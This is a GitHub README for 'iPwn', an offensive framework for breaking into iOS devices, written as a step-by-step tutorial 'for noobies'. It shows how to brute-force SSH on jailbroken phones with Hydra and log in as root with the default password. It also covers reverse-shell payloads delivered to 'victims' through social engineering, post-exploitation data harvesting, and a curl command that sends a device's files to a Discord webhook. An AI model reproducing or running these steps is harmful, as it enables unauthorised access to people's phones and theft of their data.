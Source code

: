 # iPwn
A Framework meant for the exploitation of iOS devices.
![image](https://user-images.githubusercontent.com/78043996/119547132-ba00ee80-bd62-11eb-989a-1b9522ca6bd4.png)

# Status - ❌
This project is still being worked on. I'm adding more extensions and options for post-exploitation for harvesting Device information and other things. Im also working on a way to put a payload in a normal iOS tweak so that getting a reverse shell can be easier.

# Description/How to use [FOR NOOBIES!!!]
iPwn is a framework meant for exploiting and and gaining access to iOS devices. It also has an extension that is a mini-framework called 'iSteal' that is meant for post-exploitation (after you get access to the device). This description will walk you through the different ways and steps to get access to an iOS device and harvest information from it.

The first way of getting access to an iOS device. - SSH-Bruteforcing.

Most jailbroken iOS devices with Cydia come prepackaged with OpenSSH. And usually, the credentials are very weak or common, one of the most common passwords will be included in a wordlist that should be in your folder if you downloaded iPwn from my Github.

So lets begin! So first off, we'll start by running the script.
```
python main.py
```
Then, we are going to type in the 'brute' command. (If you want to type help and get familiar with the commands, you may do so.)
![image](https://user-images.githubusercontent.com/78043996/119564117-67313200-bd76-11eb-9acd-e80b952f138d.png)

Once we type in the 'brute' command. Type in 'help' to display all the available commands.
![image](https://user-images.githubusercontent.com/78043996/119564260-95167680-bd76-11eb-8adb-122e9455d47d.png)
Now, we are going to use the 'default' command to start SSH-Bruteforcing with a wordlist containing the most common passwords.
You will be asked to enter the targets IP address, please ensure you are entering the correct and vaild one, press enter, then move on with the next step.
![image](https://user-images.githubusercontent.com/78043996/119564509-deff5c80-bd76-11eb-9df7-a58df14cb08e.png)

<!> IF YOU ARE GETTING ERRORS, PLEASE MAKE SURE THAT HYDRA IS INSTALLED, YOU CAN INSTALL HYDRA WITH THE COMMANDS BELOW <!>
```
commands to install hydra:

sudo apt install hydra
sudo pacman -S hydra
```
Now back to the tutorial, if you have hydra installed on your PC, it should already be attempting to bruteforce. Just sit tight for about 20-40 seconds and if the device does use the default/common credentails supplied in the wordlist, then Hydra should give you a little message that shows the correct password.
![image](https://user-images.githubusercontent.com/78043996/119565382-deb39100-bd77-11eb-9081-c0a500acbf65.png)

As we can see, the correct password is 'alpine'. Now we can login into the phone by doing 'ssh root@ip_goes_here' on another terminal window. Once it prompts you for a password just enter in the password you got from Hydra.
![image](https://user-images.githubusercontent.com/78043996/119565646-35b96600-bd78-11eb-9602-09de842470b1.png)

Now we are logged in!

![image](https://user-images.githubusercontent.com/78043996/119565745-54b7f800-bd78-11eb-864e-60e569ab4dbc.png)

At this point we probably want to gather some information on the phone and control it, that will come later. Because first, we need to install some very important things. If you want to use SCP to transfer the setup file that automates everything then you may do so. The file is in /post-exploitation/post.sh.
Once you transfered the 'post.sh' file over to the iOS device, execute it by doing 'bash post.sh' and it should start installing and setting up the post exploitation tools that we will use.

<!> NOTE: THE COMMANDS BELOW WILL ONLY BE FOR THE PEOPLE THAT WANT TO INSTALL THE NECESSARY PACKAGES AND TOOLS MANUALLY <!>
```
run all these commands to setup/install everything thats needed:

apt install netcat
apt install python
apt install nano
git clone https://github.com/0x1CA3/iSteal.git
git clone https://github.com/0x1CA3/AutoEnum.git
```

Ok, so now that we have everything installed, we can go into the 'iSteal' folder and run the 'iSteal' post-exploitation script.
```
python3 post.py
```
<!> NOTE: Make sure when you try running python files, you run it using "python3" instead of "python" or "py" <!>

So now the script should be loaded, if you would like to use the 'help' command and look around, you may do so.
![image](https://user-images.githubusercontent.com/78043996/119568186-3c95a800-bd7b-11eb-9e3c-55c0dcdbefe1.png)

Now, we are going to use the 'list' command to show the available modules/options for post-exploitation.
![image](https://user-images.githubusercontent.com/78043996/119593903-d45dbb00-bda8-11eb-9dda-3f59b25b98b6.png)

<!> KEEP IN MIND: THERE WILL BE ALOT OF UPDATES ON THE POST-EXPLOITATION SCRIPT, AND MORE MODULES WILL BE ADDED, SO THIS IMAGE WILL BE UPDATED FOR THE SAKE OF BEING ACCURATE <!>

To use a module, simply do 'use specific/module'. Example: use modules/list_installed_default_apps

And as you can see, when we run that module, it shows us the installed default applications on the targets iOS device.
![image](https://user-images.githubusercontent.com/78043996/119568907-0e649800-bd7c-11eb-9f11-895a0db41a5b.png)


The second way to get access to an iOS device. - Reverse shell.

Now, im going to show you how to do it the second way, which is a little more advanced. Keep in mind, I wont include pictures for this part.
```
run the iPwn framework by doing 'python main.py'
type in the 'payload' command
wait for the payload factory to load.
select a payload of your choice, Example: use payloads/factory/reverse_bash
enter your IP
enter your Port
then you should get a message that says 'payload generated'
type in the 'back' command to go back to the main menu
type in the 'listen' command to start listening for incoming connections
make sure that your victim runs the script via terminal or throught their own way, try social engineering, be creative!
once the script is executed on the victims iOS device, you should get a connection
install the important packages via transferring the 'post.sh' located in /post-exploitation and executing it, or manually do it yourself.
you can now run the 'iSteal' or 'AutoEnum' post-exploitation tools
have fun! :)
```
<!> If you are doing step 2 and get stuck on the part where you have to install the important packages/tools, go into step 1 and copy the guide for installing the packages/tools! <!>

# File transfer/Extraction
There's multiple ways to transfer files to the iOS device and there's also lots of ways to download them. The easiest way to extract and download files from the iOS device is to use Curl and a discord webhook.

<!> NOTE: The segment below will demonstrate how to extract and download files from the iOS device using curl <!>

```
Step 1: Create a discord server
Step 2: Create a webhook and copy the link
Step 3: On the iOS device, navigate towards the directory that contains the file you want to retrieve.
Step 4: enter the command below (replace file_here.txt with the name of your file, replace webhook_url_here with your webhook url)

curl -i -H 'Expect: application/json' -F file=@file_here.txt -F 'payload_json={ "wait": true, "content": "", "username": "" }' webhook_url_here

Step 5: wait around 10-50 seconds
Done! The file should now be uploaded to your discord server. You can now download/view the file.
```

# Tested OS's
```
Windows 10 - Stable
Garuda Linux - Stable
Arch based distros - Stable
```

# Supported and tested iOS devices
```
Supported Devices [The post-exploitation extension should work for all of these]
-----------------
iPods newer than the 4th Gen iPod
iPhone 4
iPhone 4S
iPhone 5
iPhone 6
iPhone SE
iPhone 7
iPhone 7+
iPhone 8
iPhone 8+
iPhone X
iPhone XR
iPhone XS
iPhone 11
iPhone 12

My own tested devices [Ones I myself have personally tested]
---------------------
iPhone 4S
iPhone 5S
iPhone SE
iPhone 7+
iPad Air
iPod 4th Gen
```

# Screenshots
![image](https://user-images.githubusercontent.com/78043996/119547477-2845b100-bd63-11eb-96bb-f01106e833b6.png)
![image](https://user-images.githubusercontent.com/78043996/119548701-7909d980-bd64-11eb-9adf-774cc787586e.png)
![image](https://user-images.githubusercontent.com/78043996/119549700-7f4c8580-bd65-11eb-8131-0f261883df45.png)
![image](https://user-images.githubusercontent.com/78043996/119549828-a3a86200-bd65-11eb-831e-5de71ea65323.png)

# Update logs
[5/25/21] - Added 8 extra modules for the 'iSteal' post-exploitation tool.
[5/25/21] - Added 2 extra modules for the 'iSteal' post-exploitation tool.

# Credits
[https://github.com/0x1CA3]
